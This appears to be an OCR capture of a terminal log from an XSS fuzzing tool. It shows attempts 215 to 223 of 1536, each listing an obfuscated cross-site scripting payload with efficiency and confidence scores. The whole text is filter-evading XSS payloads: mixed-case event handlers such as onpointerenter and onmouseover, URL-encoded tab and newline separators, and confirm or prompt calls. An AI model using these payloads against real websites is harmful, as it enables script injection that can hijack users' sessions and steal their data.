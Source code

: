 ------------------------------------------------------------
 Payload: <d3v/+/ONpOintereNtER%0a=%0a[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 215/1536
 
------------------------------------------------------------
 Payload: <d3V%0aOnpOInterenTEr+=+[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 216/1536
 
------------------------------------------------------------
 Payload: <a%0aOnpoINtereNTeR%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 217/1536
 
------------------------------------------------------------
 Payload: <a%0doNpOInTerentER+=+(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 218/1536
 
------------------------------------------------------------
 Payload: <a%0dONmoUSEovER+=+(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 219/1536
 
------------------------------------------------------------
 Payload: <A%0dONpOintErEnTEr%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 220/1536
 
------------------------------------------------------------
 Payload: <hTmL%09oNmouSEoVEr%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 221/1536
 
------------------------------------------------------------
 Payload: <dETAIlS%0aoNPointerenter%09=%09confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 222/1536
 
------------------------------------------------------------
 Payload: <HTmL%0aonPOiNTErENter+=+(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 223/1536
 